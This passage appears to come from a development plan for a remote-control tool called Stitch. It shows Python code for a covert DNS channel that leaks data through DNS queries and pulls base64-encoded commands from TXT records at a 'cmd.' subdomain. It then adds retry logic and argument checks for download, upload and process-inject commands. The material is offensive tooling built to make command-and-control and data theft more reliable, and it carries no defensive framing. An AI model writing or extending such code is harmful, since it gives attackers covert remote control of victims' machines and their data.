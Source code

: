 ```python
            try:
                dns.resolver.resolve(query, 'TXT')
            except:
                pass  # Server receives query regardless
                
    def receive_data(self):
        # Query for instructions
        response = dns.resolver.resolve(f"cmd.{self.domain}", 'TXT')
        return base64.b64decode(response[0].to_text())
```

---

## PHASE 5: RELIABILITY IMPROVEMENTS (Week 8)

### 5.1 Add Retry Logic to All Commands
**File:** `Application/stitch_lib.py`
**Wrapper for all commands:**
```python
import time
from functools import wraps

def retry_on_failure(max_retries=3, delay=1):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            for attempt in range(max_retries):
                try:
                    return func(*args, **kwargs)
                except Exception as e:
                    if attempt == max_retries - 1:
                        raise
                    time.sleep(delay * (2 ** attempt))  # Exponential backoff
            return None
        return wrapper
    return decorator

# Apply to all command methods:
@retry_on_failure(max_retries=3)
def download(self, filename):
    # existing code
```

### 5.2 Add Command Validation
**Before executing any command:**
```python
def validate_command(self, cmd, args):
    # 1. Check if command exists
    if not hasattr(self, cmd):
        return False, "Command not found"
    
    # 2. Validate arguments
    validators = {
        'download': lambda args: os.path.exists(args[0]),
        'upload': lambda args: len(args) == 2,
        'inject': lambda args: args[0].isdigit(),
    }
    
    if cmd in validators:
        if not validators[cmd](args):
            return False, "Invalid arguments"
    
    # 3. Check platform compatibility
```